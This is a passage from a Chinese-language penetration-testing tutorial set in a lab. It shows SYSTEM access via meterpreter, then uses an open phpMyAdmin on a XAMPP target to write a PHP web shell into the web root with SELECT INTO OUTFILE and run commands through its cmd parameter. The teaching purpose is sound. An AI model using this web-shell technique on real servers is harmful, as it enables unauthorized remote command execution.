 ```
meterpreter > **getuid**
BOOKXP\SYSTEM
```

我们现在拥有系统权限，这将使我们能够完全控制 Windows 系统。（出于这个原因，一般来说，允许 web 服务器软件拥有系统权限并不好。因为 XAMPP 的 Apache 服务器作为系统服务运行，我们可以完全访问底层系统。）

现在让我们看看我们 XAMPP 安装的另一个问题。

## 利用开放的 phpMyAdmin

上一节中利用的同一目标 XAMPP 平台也包括一个开放的 phpMyAdmin 安装，我们可以利用它在数据库服务器上运行命令。像 Apache 一样，我们的 MySQL 服务器将具有系统权限（如果它作为 Windows 服务安装）或启动 MySQL 进程的用户权限。通过访问 MySQL 数据库，我们可以执行类似于 WebDAV 攻击的攻击，并使用 MySQL 查询将脚本上传到 web 服务器。

要探索这个攻击，首先导航到 *[`192.168.20.10/phpmyadmin`](http://192.168.20.10/phpmyadmin)*，然后点击顶部的 SQL 标签。我们将使用 MySQL 编写一个脚本到 web 服务器上，利用它来获取远程 shell。我们将使用 SQL `SELECT` 语句将 PHP 脚本输出到 web 服务器上的文件，从而允许我们远程控制目标系统。我们将使用脚本 `<?php system($_GET['cmd']); ?>` 从 URL 中抓取 `cmd` 参数并通过 `system()` 命令执行它。

XAMPP 在 Windows 上的 Apache 默认安装位置是 *C:\xampp\htodcs\*。我们的命令语法是：`SELECT "`*`<script string>`*`"` `into outfile "`*`path_to_file_on_web_server`*`"`. 完整的命令如下所示：

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"
```

### 注意

我们使用双反斜杠进行转义，这样就不会得到文件路径 C:xampphtdocsshell.php，否则我们将无法通过 web 服务器访问它。

图 8-2 显示了在 phpMyAdmin 的 SQL 控制台中输入的命令。

![执行 SQL 命令](img/httpatomoreillycomsourcenostarchimages2030388.png.jpg)图 8-2. 执行 SQL 命令

在 phpMyAdmin 中运行完成的查询，然后浏览到新创建的文件 *[`192.168.20.10/shell.php`](http://192.168.20.10/shell.php)*。该脚本应该会抛出错误 *Warning: system() [function.system]: Cannot execute a blank command in C:\xampp\htdocs\shell.php on line 1*，因为我们没有提供 `cmd` 参数。（回想一下，*shell.php* 从 URL 获取 `cmd` 参数，并通过 PHP 的 `system()` 命令执行它。）我们需要提供一个 `cmd` 参数，告诉脚本我们想在目标系统上运行的命令。例如，我们可以让 Windows XP 目标告诉我们它的网络信息，通过将 `cmd` 参数设置为 `ipconfig`，像这样：

```
http://192.168.20.10/shell.php?cmd=ipconfig
```
